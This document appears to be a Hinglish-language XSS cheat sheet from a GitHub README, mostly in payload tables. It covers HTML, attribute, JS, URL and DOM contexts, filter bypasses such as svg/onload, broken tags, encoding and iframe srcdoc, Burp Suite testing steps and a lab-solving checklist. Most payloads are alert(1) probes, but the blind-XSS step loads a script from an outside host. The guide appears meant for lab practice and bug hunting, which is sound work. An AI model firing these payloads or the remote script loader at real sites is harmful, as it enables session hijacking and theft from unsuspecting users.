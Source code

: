 # Hacker Plan

### ✅ Step 1: XSS ka DNA — Reflection + Execution

XSS hone ke liye do cheezein zaroori hain:

- Reflection → Tumhara input page pe visible ya hidden form mein aaya

- Execution → Browser ne us input ko text nahi, code samjha

### 🧠 Tip:

Agar input sirf dikh rahi hai (text), to XSS nahi
Agar input JS ki tarah run ho rahi hai — boom! Alert chala to XSS confirmed!

---

### ✅ Step 2: 6 Contexts Jahan XSS hota hai

| Context Name            | Example Reflection              | XSS Payload                 |
| ----------------------- | ------------------------------- | --------------------------- |
| HTML                    | `<div>input_here</div>`         | `<script>alert(1)</script>` |
| Attribute               | `<img src="input_here">`        | `x" onerror="alert(1)`      |
| JS Context              | `var a = "input_here";`         | `";alert(1);//`             |
| URL                     | `<a href="input_here">`         | `javascript:alert(1)`       |
| Event Handler           | `<button onclick="input_here">` | `alert(1)`                  |
| Comment / Style / Title | `<!-- input_here -->`           | XSS not possible mostly     |


🧠 Tip:
Pehle inspect karo ya page source check karo — kis context mein input reflect ho rahi hai, uske hisaab se payload banao.

---

### ✅ Step 3: Bypass Techniques

| Bypass Type        | Payload Example                                                        |
| ------------------ | ---------------------------------------------------------------------- |
| Tag-based          | `<svg/onload=alert(1)>`, `<iframe srcdoc="<script>alert(1)</script>">` |
| Encoding           | `%3Cscript%3Ealert(1)%3C/script%3E`                                    |
| Broken Tags        | `<scr<script>ipt>alert(1)</scr<script>ipt>`                            |
| Event Bypass       | `autofocus onfocus=alert(1)`                                           |
| Attribute Breaking | `x" onmouseover="alert(1)`                                             |
| HTML Entity        | `&lt;svg/onload=alert(1)&gt;`                                          |

Tip:

Jab <script> block ho, to svg, iframe, math, img, input, body, details, select — sab test kar.

---

### ✅ Step 4: IFRAME ka Use XSS mein
📌 Purpose:
Hidden XSS run karne ke liye

Other payloads inject karne ke liye (CSP bypass / clickjacking etc.)

✅ Example Payload:

```<iframe srcdoc="<script>alert('XSS')</script>"></iframe>```

srcdoc iframe ka andar ka HTML define karta hai

Yahan <script> tag directly run hota hai

🧠 Note:

iframe payloads mostly HTML context mein use hote hain — ya jab normal tags block ho jaayein

---

### ✅ Step 5: SVG ka Use XSS mein
📌 Purpose:
<script> tag block ho to alternate route

SVG browser ke liye trusted hota hai (graphics tag hai)

---

### Step 6: DOM-Based XSS Samajh
📌 Jab JS code input uthakar page mein inject karta hai

🔍 Jaise:

```let q = location.hash;```
```document.getElementById("result").innerHTML = q;```

✅ Exploit:

```http://example.com/#<img src=x``` ```onerror=alert(1)>```

🧠 DOM XSS ka source hota hai: location, location.hash, document.referrer, etc.

---

### ✅ Step 7: Blind XSS

📌 Jab tu payload daale, alert tere samne nahi chalta — lekin backend user (admin) ke saamne chalta hai.

Example Payload:

```<script src=//xss.habib.com/x.js></script>```

🧠 Use tools like XSSHunter, Interactsh, ya apna webhook.site

---

### ✅ Step 8: XSS Detection via BurpSuite

- Intercept request
- Send to Repeater
- **Inject payloads in:**

- Query parameters
- Headers (User-Agent, Referer)
- POST body
- Cookies
- Check Reflection

Match context → fire payload

---

### Step 9: Real World Payloads

| Situation              | Try This                                    |
| ---------------------- | ------------------------------------------- |
| Input inside HTML      | `<img src=x onerror=alert(1)>`              |
| Input inside attribute | `" onmouseover=alert(1) x="`                |
| JS block               | `';alert(1);//`                             |
| Input in URL           | `javascript:alert(1)`                       |
| Tag blocked            | `<svg/onload=alert(1)>`                     |
| CSP enabled            | `<iframe srcdoc=...>` or use event chaining |

---

### ✅ Step 10: Jab Lab Naa Ho Solve — Yeh Checklist Follow Kar

Input reflect ho rahi hai?
→ Agar nahi: Encode karke try karo, Burp mein send karo

Kis tag ke andar jaa rahi hai?
→ ```<div>, href="", src="",``` etc. → us context ka payload use karo

Encoding ho rahi hai?
→ Try encoded payload ```(%3Cscript%3Ealert(1)%3C/script%3E)```

Tag blocked hai?
→ Use: ```<svg>, <math>, <iframe srcdoc=...>,``` ```onerror, onfocus, autofocus, tabindex```

Browser inspect element open karo
→ Dekho input kahan gaya hai → wahi context hit karo

BurpSuite repeater mein input daal ke dekho
→ Reflect ho raha hai ya nahi

DOM XSS lag raha?
→ Check karo: location, hash, document.write, innerHTML

Alert nahi aaya to server-side encode kar raha?
→ Base64, URL encode, HTML entity detect kar

### 💡 Final Hacker Line:
"XSS koi ek payload ka game nahi — ye context, reflection aur browser behavior ka full formula hai.
Jahan ye tino mil gaye — wahan XSS guaranteed hai."